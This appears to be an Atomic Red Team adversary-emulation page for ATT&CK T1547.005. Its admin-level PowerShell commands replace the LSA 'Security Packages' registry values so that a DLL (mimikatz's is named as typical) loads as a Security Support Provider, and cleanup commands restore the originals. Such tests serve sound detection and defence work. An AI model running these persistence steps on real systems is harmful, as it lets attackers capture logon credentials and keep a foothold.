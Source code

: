 ```yaml
---
tags: [T1547_005, atomic_test]
filename: "[[T1547.005|T1547.005 - Boot or Logon Autostart Execution: Security Support Provider]]"
---
```

# T1547.005 - Boot or Logon Autostart Execution: Security Support Provider

## Atomic Test #1 - Modify HKLM:\System\CurrentControlSet\Control\Lsa Security Support Provider configuration in registry
Add a value to a Windows registry Security Support Provider pointing to a payload .dll which will normally need to be copied in the system32 folder.
A common DLL used with this techquite is the minilib.dll from mimikatz, see https://pentestlab.blog/2019/10/21/persistence-security-support-provider/

**Supported Platforms:** Windows


**auto_generated_guid:** afdfd7e3-8a0b-409f-85f7-886fdf249c9e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$oldvalue = $(Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages');
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old' -Value "$oldvalue";
$newvalue = "AtomicTest.dll";
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $newvalue
```

#### Cleanup Commands:
```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old' | Select-Object -ExpandProperty 'Security Packages old');
Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old';
```





<br/>
<br/>

## Atomic Test #2 - Modify HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig Security Support Provider configuration in registry
Add a value to a Windows registry SSP key, simulating an adversarial modification of those keys.

**Supported Platforms:** Windows


**auto_generated_guid:** de3f8e74-3351-4fdb-a442-265dbf231738






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$oldvalue = $(Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages');
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old' -Value "$oldvalue";
$newvalue = "AtomicTest.dll";
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value $newvalue
```

#### Cleanup Commands:
```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old' | Select-Object -ExpandProperty 'Security Packages old');
Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old';
```





<br/>
